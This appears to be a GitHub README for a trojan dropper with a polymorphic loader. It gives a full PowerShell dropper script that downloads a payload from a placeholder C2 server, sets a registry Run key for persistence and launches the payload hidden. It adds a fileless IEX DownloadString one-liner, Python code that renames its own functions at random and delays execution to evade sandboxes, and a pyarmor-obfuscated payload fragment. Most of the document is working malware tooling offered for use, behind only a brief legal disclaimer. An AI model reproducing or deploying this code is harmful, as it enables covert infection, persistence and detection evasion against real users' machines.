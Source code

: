 # Trojan-Dropper-Polymorphic-Loader

## OVERVIEW
This project demonstrates a trojan dropper coupled with an advanced polymorphic loader designed to execute obfuscated payloads while evading detection. Threat actors utilizing techniques such as persistence and adaptability can deploy covert malware including ransomware, keyloggers, remote access trojans (RATS), credential stealers, and process injectors without easily being detected by traditional security solutions.

## Initial Infection Vector
The trojan dropper is a PowerShell script responsible for downloading the obfuscated payload from a remote C2 server. It ensures persistence by modifying Windows registry startup keys and executing the payload without displaying a console window.
```
Start-Process -WindowStyle Hidden -FilePath $filePath
```
## Techniques that threat actors use:
Fileless execution
```
powershell -ExecutionPolicy Bypass -NoProfile -NonInteractive -Command "IEX (New-Object Net.WebClient).DownloadString('YOUR_C2_Server_or_Hosting_Server/Your_Payload_File')"
```
Windows Registry Persistence
```
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdater" -Value "$filePath"
```
This ensures the paylaod is automatically executed everytime the user logs in.

Invoke-WebRequest to download the payload over http-https making it appear as a legitimate network request.
```
Invoke-WebRequest -Uri $payloadURL -OutFile $filePath
```
## Polymorphic_Loader
This is an obfuscated python executable that executes an encrypted and self morphing payload.  It uses base64 encoding + encryption to hide the paylaod, mutatues itself upon execution to evade signature based detection, self replicates and deletes old versions to prevent forensic recovery. Everytime it executes it randomizes function and variable names also renaming functions before execution to make signature based detection useless.
```
func_name = ''.join(random.choices(string.ascii_letters, k=10))
var1 = ''.join(random.choices(string.ascii_letters, k=8))
globals()[func_name] = decrypt_and_execute
globals()[func_name]()
```
The payload sleeps for a random interval 1-5 minutes before executing ensuring short lived analysis sandboxes timeout before execution.
```
sleep_time = random.randint(60, 300)
```
# trojan_dropper.ps1
```
$filePath = "$env:PUBLIC\update.exe" 
$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$regName = "SystemUpdater"
$payloadURL = "YOUR_C2_OR_HOSTING_SERVER/polymorphic_loader.exe"

# Download the obfuscated payload
Invoke-WebRequest -Uri $payloadURL -OutFile $filePath

# Add persistence to registry
Set-ItemProperty -Path $regPath -Name $regName -Value $filePath

# Execute the <payload> 
Start-Process -WindowStyle Hidden -FilePath $filePath
```
# polymorphic_loader.exe
this is a snippet of the obfuscated payload having used pyarmor 
```
from pyarmor_runtime_000000 import __pyarmor__
__pyarmor__(__name__, __file__, b'PY000000\x00\x03\x0c\x00\xcb\r\r\n\x80\x00\x01\x00\x08\x00\x00\x00\x04\x00\x00\x00@\x00\x00\x00\xd2\x19\x00\x00\x12\t\x04\x00\x91\x82\xf0\x92fp\xdf\xfdc\xc3W^\x80"\xf9)\x00\x00\x00\x00\x00\x00\x00\x00\xeb\x04J,\xfe\xbe\xb9\xe2\xcaH\xf5\xccy\x95\xaai\x11\x19W\x9d\xdb\xd8\x99>`\x82\x8em\x1a\x9f_\xe1(\x80\xcdD\x98\xef4[-|\x9c%\x9d~\xc0l\xd5!t\xab\xce\xf42\xc67%\xec\xbe\xe3\x8c\x12A92\x08\x03\xda\xd6\xf9r\'L\x96\x17*\xa1\x1f\xa3j\xe1\x06\xca\xdf\xca1\xe6p\x16\xa4\rr~\xed\xe7\x18\x04A\x04\x08\x91vl\xdd\x9615\xb6\xad\x89k
```
**there are many other steps that need to be taken to compile a complete working obfuscated executable payload such as installing all the necessary dependencies, including them with the correct flags --hidden-import and --add-data**
## I am not responsible for your actions or intentions with the given data here! Stay within bounds of the law and only test where permission is given.

